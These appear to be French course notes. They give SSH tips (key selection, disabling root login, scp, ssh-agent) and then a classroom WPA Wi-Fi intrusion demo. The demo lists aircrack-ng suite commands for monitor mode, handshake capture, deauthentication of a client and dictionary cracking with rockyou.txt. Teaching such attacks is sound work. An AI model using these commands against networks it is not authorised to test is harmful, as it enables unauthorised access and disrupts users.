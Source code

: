*NB:* Lorsque l'on a plusieurs jeux de clés, on peut préciser explicitement
celle que l'on veut utiliser avec l'option `-i`.

Remarque : Ne pas pas autoriser la connexion distante au compte root via SSH (que ce soit par mot de passe ou par
clés). Notez que c'est la configuration par défaut sur Debian.

Transfert de fichiers via SSH : la commande scp

Remarque : un avantage non négligeable d'avoir une authentification par clef, c'est que l'auto-complétion des chemins
quand on tape une commande scp fonctionne aussi avec l'arborescence distante.

Usage d'un agent (quand on a mis une passphrase à sa clé privé) : En mode graphique le ssh-agent est
généralement déjà lancé (sinon eval $(ssh-agent)). Ajouté les clés publique avec `ssh-add`.

Conseil : Surveiller les connexions en lisant régulièrement le fichier de log `/var/log/auth.log` avec la
commande `last`.

## Démo intrusion Wifi (WPA)



Rappel des commandes saisies lors de la démonstration faite en cours.

Ressources utiles :

- [Cracking WPA WPA2 with Kali Linux (verbal step by step guide)](https://www.youtube.com/watch?v=kpI3fQjf43E)
- [Wireless LAN Security and Penetration Testing Megaprimer (un cours complet en vidéo)](http://www.securitytube.net/groups?operation=view&groupId=9)
- [La distribution Linux la plus adaptée pour s’initier au “Pentesting”](https://www.kali.org/)
- [Le matériel que j’utilise](http://www.wifi-highpower.com/cartes-wifi-usb/39-awus036nha-carte-wifi-usb-alfa-network-1000-mw-et-antenne-5-dbi.html)
- [Un lien vers un certain nombre de dictionnaire (ex : rockyou.txt utile pour WPA)](https://wiki.skullsecurity.org/Passwords)
```
	### Exemple WPA ##################################
	# Passe la carte wifi en mode monitor
	airmon-ng start wlan0
	# On note :
	ESSID: VictimAP
	BSSID : 00:12:17:07:9C:78
	Channel: 1
	Client: D0:25:98:18:3B:FD
	# Pour cette attaque la presence d’un client est nécessaire.
	# choose your target (bssid, channel, mac@ client )
	airodump-ng wlan0mon
	# logger
	airodump-ng wlan0mon -w out --bssid 00:12:17:07:9C:78 --encrypt wpa -c 1
	# Stock la capture dans out-01.cap
	# envoyer un deauth, vérifier si on obtient un handshake avec la commande précédente
	aireplay-ng -0 1 -a 00:12:17:07:9C:78 -c D0:25:98:18:3B:FD wlan0mon
	# appliquer un dictionnaire...
	aircrack-ng -w /path-to-DICO/rockyou.txt -b 00:12:17:07:9C:78 out-01.cap
```
